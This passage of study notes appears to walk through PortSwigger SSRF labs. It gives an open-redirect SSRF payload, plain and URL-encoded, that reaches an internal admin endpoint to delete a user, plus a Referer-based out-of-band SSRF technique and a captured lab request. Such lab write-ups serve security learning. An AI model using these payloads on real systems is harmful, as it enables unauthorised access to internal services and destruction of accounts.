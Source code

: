 Sending URL encoded payload `stockapi=/product/nextProduct?currentProductId=1&path=/product?productId=2` returns a successful response

Solution (no URL encoding): `stockApi=/product/nextProduct?currentProductId=1&path=http://192.168.0.12:8080/admin/delete?username=carlos`

Solution (with URL encoding): `stockApi=%2f%70%72%6f%64%75%63%74%2f%6e%65%78%74%50%72%6f%64%75%63%74%3f%63%75%72%72%65%6e%74%50%72%6f%64%75%63%74%49%64%3d%31%26%70%61%74%68%3d%68%74%74%70%3a%2f%2f%31%39%32%2e%31%36%38%2e%30%2e%31%32%3a%38%30%38%30%2f%61%64%6d%69%6e%2f%64%65%6c%65%74%65%3f%75%73%65%72%6e%61%6d%65%3d%63%61%72%6c%6f%73`

### Lab: Blind SSRF with out-of-band detection

Task: Access admin portal and delete Carlos

Starting a Burp Collaboration Server:

- Click on Burp tab

- Click on Burp Collaborator Client

- Click on Copy to clipboard

- This essentially sets up a server to receive requests (HTTP, DNS etc.)

Strategy: Target server has a analytics software which looks at Referer and makes a requests to it (maybe something like a GET request). Change the referer to the Burp Collaborator Client address to trigger the analytics software to send requests to it. Ensure to pad `http://` before the payload.

### Lab: SSRF with whitelist-based input filter

Task: Access admin portal and delete Carlos

Get product stock request

```
POST /product/stock HTTP/1.1
Host: 0aaf003e04480b86c0ccc3a3008b00cd.web-security-academy.net
Cookie: session=R7fYWSmOM8jnbJDnFiXPbXqqBwHxDSoZ
Content-Length: 107
Sec-Ch-Ua: "(Not(A:Brand";v="8", "Chromium";v="98"
Sec-Ch-Ua-Mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/98.0.4758.102 Safari/537.36
Sec-Ch-Ua-Platform: "Linux"
Content-Type: application/x-www-form-urlencoded
Accept: */*
Origin: https://0aaf003e04480b86c0ccc3a3008b00cd.web-security-academy.net
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://0aaf003e04480b86c0ccc3a3008b00cd.web-security-academy.net/product?productId=1
Accept-Encoding: gzip, deflate
Accept-Language: en-GB,en-US;q=0.9,en;q=0.8
Connection: close

stockApi=http%3A%2F%2Fstock.weliketoshop.net%3A8080%2Fproduct%2Fstock%2Fcheck%3FproductId%3D1%26storeId%3D1
```
